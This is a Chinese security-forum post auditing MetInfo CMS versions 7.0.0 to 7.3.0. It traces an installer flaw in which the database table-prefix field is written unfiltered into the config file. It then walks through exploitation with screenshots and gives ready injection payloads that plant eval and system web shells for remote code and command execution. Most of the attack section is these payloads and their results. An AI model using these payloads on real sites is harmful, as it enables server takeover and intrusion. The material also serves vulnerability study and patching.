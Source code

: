 Metinfocms命令执行  
前话：  
米拓企业建站系统是一款由长沙信息科技有限公司自主研发的免费开源企业级CMS，该系统拥有大量的用户使用，及对该款cms进行审计，如果利用CNVD-2021-01930进行进一步深入，其危害的严重性可想而知。  
审计过程：  
1.Index：拿到源码先看根目录的index.php看看都包含（加载）了什么文件。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c03fb7ee266e46c25638ca4590e6f69033cef869.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c03fb7ee266e46c25638ca4590e6f69033cef869.png)  
2.关键词：在/app/system/entrance.php看到了配置文件的定义，全局搜索这个  
’PATH\_CONFIG‘参数。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0bdc29e99f17269162c39c5edd4db854159d9cde.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0bdc29e99f17269162c39c5edd4db854159d9cde.png)  
全局搜索并找到install/index.php文件下有这个参数，点击跟进查看。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e22cfc75ce590d850fbc6a366cde692797c580f1.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e22cfc75ce590d850fbc6a366cde692797c580f1.png)  
在这个文件的219行有个是接收db数据库参数的方法。  
官方说明“$\_M”数组：<https://doc.metinfo.cn/dev/basics/basics75.html>  
这里是接收from数据的db\_prefix参数。也就是“数据表前缀”内容的值。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c6176e64214801868737c0d06b466cad93560b5d.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c6176e64214801868737c0d06b466cad93560b5d.png)  
往下发现是直接写入tableper然后赋值给config变量。

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-2c2b06259b89cc5f0ada5f6d8f9db8f5cf33c3c7.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-2c2b06259b89cc5f0ada5f6d8f9db8f5cf33c3c7.png)

并在264行fopen打开/config/config\_db.php进行没有安全过滤的字节流（fputs）方式的写入。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ced2e8ce6176a850dd07e0b97f483e84f70fb14b.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ced2e8ce6176a850dd07e0b97f483e84f70fb14b.png)  
影响版本：7.3.0 - 7.0.0  
一、进行7.3.0安装步骤，访问http://127.0.0.1/install/index.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0d6983a65aa9efcebe38a77df5996dd3483b3285.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0d6983a65aa9efcebe38a77df5996dd3483b3285.png)  
二、选中传统安装继续下一步  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d0d3dc05c707292f72e3a29548a8123d33ab87e1.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d0d3dc05c707292f72e3a29548a8123d33ab87e1.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4280a8104b427b3d2c75049a3664c7b13e3a4ab1.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4280a8104b427b3d2c75049a3664c7b13e3a4ab1.png)  
三、数据库信息进行写shell  
代码执行Payload："*/@eval($\_GET\['1'\]);/*  
命令执行Payload："*/@system($\_GET\['1'\]);/*  
代码执行：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-85fbb9783baf1653eb4d856f7c1273fc6d86b3f3.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-85fbb9783baf1653eb4d856f7c1273fc6d86b3f3.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f25324bacc38ce0d96b21d89f38fb096aff766e8.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f25324bacc38ce0d96b21d89f38fb096aff766e8.png)  
点击保存进行下一步验证，出现这报错信息，可以查看config\\config\_db.php文件。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6604dafcea8d0d4f4631dd992c86e4314cd067d7.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6604dafcea8d0d4f4631dd992c86e4314cd067d7.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1a8cd7a6bdeac497447da32a5f25904fa9462807.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1a8cd7a6bdeac497447da32a5f25904fa9462807.png)  
成功写入  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5f58fd7f4ce6833d93bcee16e76831a30c398e22.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5f58fd7f4ce6833d93bcee16e76831a30c398e22.png)  
命令执行：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d85567a127d9dd98cf6f8b182b1a8178c7f8177d.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d85567a127d9dd98cf6f8b182b1a8178c7f8177d.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a994addd1de11e8212f2d2c83397b1c3943898e0.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a994addd1de11e8212f2d2c83397b1c3943898e0.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6182db58b0f8a8f87435512e74ebc35ca4f0f67b.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6182db58b0f8a8f87435512e74ebc35ca4f0f67b.png)  
7.0.0版本：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-54caf196d50d033c796bc9b1682900eb87963734.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-54caf196d50d033c796bc9b1682900eb87963734.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f52c2652760687b3a370f106e739efb0bcac1b1c.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f52c2652760687b3a370f106e739efb0bcac1b1c.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-06c82c50201ba243e8e9e28d1d5e3c58e4a02085.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-06c82c50201ba243e8e9e28d1d5e3c58e4a02085.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-453a96c9bbdd9a5470430288f914a842395f1152.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-453a96c9bbdd9a5470430288f914a842395f1152.png)  
7.1.0版本：  
Payload："*/@eval($\_GET\['1'\]);@system($\_GET\['2'\]);/*  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d20cda028493e956ca44df287734149bc4b36db1.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d20cda028493e956ca44df287734149bc4b36db1.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d8c0a2fc7ef73fc43d8724949fbd5160ca7699e9.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d8c0a2fc7ef73fc43d8724949fbd5160ca7699e9.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a74c4e5077e84b41fb048ed8d571fe28b8788272.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a74c4e5077e84b41fb048ed8d571fe28b8788272.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ef92943e193c12699c997b7476187412be4b57d7.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ef92943e193c12699c997b7476187412be4b57d7.png)  
7.2.0版本：  
Payload："*/@eval($\_GET\['1'\]);@system($\_GET\['2'\]);/*

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-41f28bee1dc855b9b8f459858831480c981c7c06.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-41f28bee1dc855b9b8f459858831480c981c7c06.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a44918fc6d95b4d27d8e722bf1e25890cbf445ce.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a44918fc6d95b4d27d8e722bf1e25890cbf445ce.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ed7c127d76d84388b23ace4a66c8b7b23da31a6a.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ed7c127d76d84388b23ace4a66c8b7b23da31a6a.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-990e6a381b39a60cb883b995ac62315ebd169181.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-990e6a381b39a60cb883b995ac62315ebd169181.png)